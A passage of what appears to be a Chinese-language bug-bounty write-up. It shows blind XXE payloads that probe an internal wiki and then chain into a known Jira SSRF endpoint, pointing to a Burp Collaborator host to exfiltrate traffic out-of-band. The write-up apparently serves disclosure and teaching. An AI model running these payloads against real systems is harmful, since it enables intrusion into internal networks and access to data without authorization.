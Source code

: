 ```
&lt;?xml version="1.0" ?&gt;
&lt;!DOCTYPE root [
&lt;!ENTITY % ext SYSTEM "http://wiki.company.internal/"&gt; %ext;
]&gt;
&lt;r&gt;&lt;/r&gt;
```

响应：

```
The markup declarations contained or pointed to by the document type declaration must be well-formed.
```

我们之前见过相同的错误消息，这表明所请求的资源已被读取，但格式不正确。这也意味着，内部的网络流量是被允许的，我们的内部请求已经成功！

现在，我们利用XXE盲注漏洞，可以向许多内部Web应用程序发出请求，枚举文件系统上存在的文件，并枚举在所有内部主机上运行的服务。我在旅行的路上，报告了这一漏洞，并思考进一步的可能性。



## 深入挖掘

在旅行回来后，我的心情也焕然一新，于是决心深入挖掘这个漏洞。具体来说，我已经意识到未经过滤的内部网络流量可能会被滥用，以将流量发送到外部，从而防止在内部网络上找到类似代理的主机。

通常，在没有任何形式的反馈的情况下，寻找Web应用程序上的漏洞几乎是不可能的。幸运的是，在Jira中有一个已知的SSRF漏洞，在许多文章中已经给出了Write-up。

我立刻针对此前发现的内部Jira服务器，测试这个漏洞是否存在。

请求：

```
&lt;?xml version="1.0" ?&gt;
&lt;!DOCTYPE root [
&lt;!ENTITY % ext SYSTEM "https://jira.company.internal/plugins/servlet/oauth/users/icon-uri?consumerUri=http://4hm888a6pb127f2kwu2gsek23t9jx8.burpcollaborator.net/x"&gt; %ext;
]&gt;
&lt;r&gt;&lt;/r&gt;
```

响应：

```
The request is invalid: The request content was malformed:
sun.security.validator.ValidatorException: PKIX path building failed: sun.security.provider.certpath.SunCertPathBuilderException: unable to find valid certification path to requested target
```

这样看来，如果SSL验证中的任何内容出现错误，HTTPS流量也会传输失败。幸运的是，Jira默认在TCP/8080端口上作为普通HTTP服务运行。所以，让我们再试一次。

请求：

```
&lt;?xml version="1.0" ?&gt;
&lt;!DOCTYPE root [
&lt;!ENTITY % ext SYSTEM "http://jira.company.internal:8080/plugins/servlet/oauth/users/icon-uri?consumerUri=http://4hm888a6pb127f2kwu2gsek23t9jx8.burpcollaborator.net/x"&gt; %ext;
]&gt;
&lt;r&gt;&lt;/r&gt;
```
